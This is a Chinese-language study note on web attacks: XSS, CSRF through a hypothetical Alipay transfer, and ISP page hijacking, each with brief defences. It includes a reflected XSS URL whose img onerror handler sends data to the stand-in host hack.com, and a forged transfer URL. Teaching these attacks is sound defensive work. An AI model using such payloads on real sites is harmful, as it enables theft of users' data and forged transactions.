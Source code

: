 ### - XSS
> `cross site scripting` 跨站脚本攻击 
>  攻击者往 web 页面插入恶意 Script 代码，  
>  当其他用户浏览该网页时，嵌入的脚本代码就会被执行，从而到达恶意攻击用户的目的

1. 反射型 

> https://www.xxx.com/search?item=<img onerror="new Image().src='//hack.com?c=' src='null'>"
> 很多站点都提供搜索服务，如果把搜索的关键词修改为可执行的javascript语句  
> 服务器不加处理将类似的代码现实到页面  
> XSS代码将会被执行

2. 存储型

> 利用站点本身合法的存储结构，通过站点提供的接口提交XSS代码  
> 会被存储到服务器上 当其他用户访问该网页时，服务器把包含XSS的内容反馈给用户  
> 从而攻击用户

##### 服务器都会将javascript当作文本处理， 在服务端整合进HTML文档中
##### 在浏览器解析这些文本的过程 也就是XSS被执行的时候
##### 所有最主要的防范措施就是 对任何用户提交到服务器上的文本都要经过编码或者转译



### - CSRF
> `cross-site request forgery` 跨站请求伪造  
> 通过伪装来自守信用户的请求来利用  
> 攻击者盗用了你的身份，以你的名义发送恶意请求  

> 我们先假设支付宝存在CSRF漏洞，我的支付宝账号是lyq，攻击者的支付宝账号是xxx。  
> 然后我们通过网页请求的方式 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=lyq2  
> 可以把我账号lyq的10000元转到我的另外一个账号lyq2上去。通常情况下，该请求发送到支付宝服务器后,  
> 服务器会先验证该请求是否来自一个合法的session并且该session的用户已经成功登陆。攻击者在支付吧也有账号xxx， 
> 他知道上文中的URL可以进行转账操作，于是他自己可以发送一个请求 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx 到支付宝后台。  
> 但是这个请求是来自攻击者而不是来自我lyq，所以不能通过安全认证，因此该请求作废。  
> 这时，攻击者xxx想到了用CSRF的方式，他自己做了个黄色网站，在网站中放了如下代码：http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx并且通过黄色链接诱使我来访问他的网站。  
> 当我禁不住诱惑时就会点了进去，上述请求就会从我自己的浏览器发送到支付宝，  
> 而且这个请求会附带我的浏览器中的cookie。  
> 大多数情况下，该请求会失败，因为支付宝要求我的认证信息，但是我如果刚访问支付宝不久，还没有关闭支付宝页面，  
> 我的浏览器中的cookie存有我的认证信息，这个请求就会得到响应，从我的账户中转10000元到xxx账户里，而我丝毫不知情，攻击者拿到钱后逍遥法外。所以以后一定要克制住自己，不要随便打开别人的链接。

#### CSRF 防御错书主要有验证 HTTP Referer 字段，和 添加 token 验证、验证码 



### - 页面劫持
1. 跳转型  

> 用户输入地址A，但是跳转到地址B，用户输入baidu.com跳转到so.com或者sm.cn，并且对方网站有故意做成和百度搜索差不多的样子。  

##### 这种劫持，输入 url 到 页面加载结束，判断 url 是否一致

2.注入型

> 在页面传输过程中，对内容进行再加工（注入 js、iframe、篡改页面）。注入js的方式可以通过document.write或者直接改html代码片段等方式，给页面增加外链js，为了做到更难检测，有些运营商会捏造一个不存在的url地址，从而不被过滤或者检测。  

```
案例1：运营商会用自己识别的ip或者域名做js网址，wap.zjtoolbar.10086.cn这类只有在浙江移动网络下才会被解析出来，同理ip也是

案例2：运营商很聪明，知道页面可以检测所有外链js的域名，比如：m.baidu.com我只允许m.baidu.com/static的外链js，其他js都会被记录反馈；为了不被检测出来，我遇见个case电信会访问一个不存在的地址，比如：m.baidu.com/static/abc.js，这个地址在运营商直接返回劫持的js代码，请求不会发到百度的服务器。
```  

##### 改写 `document.write` 方法 和  `window.top = parent!== window` 和  `https://`
    






